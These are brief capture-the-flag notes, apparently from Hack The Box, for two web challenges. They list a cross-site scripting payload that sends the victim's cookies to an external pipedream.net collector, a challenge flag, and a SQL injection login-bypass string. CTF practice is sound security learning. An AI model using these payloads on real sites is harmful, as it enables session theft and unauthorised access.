 # Toy Workshop
payloads: <script tyle="text/javascript">document.location='https://enyk2dcb07mwp3e.m.pipedream.net/?c='+document.cookie;</script>   
flag: HTB{3v1l_3lv3s_4r3_r1s1ng_up!}

# Toy Management
SQL injection  
Payloads: username=admin' OR '1&password=a
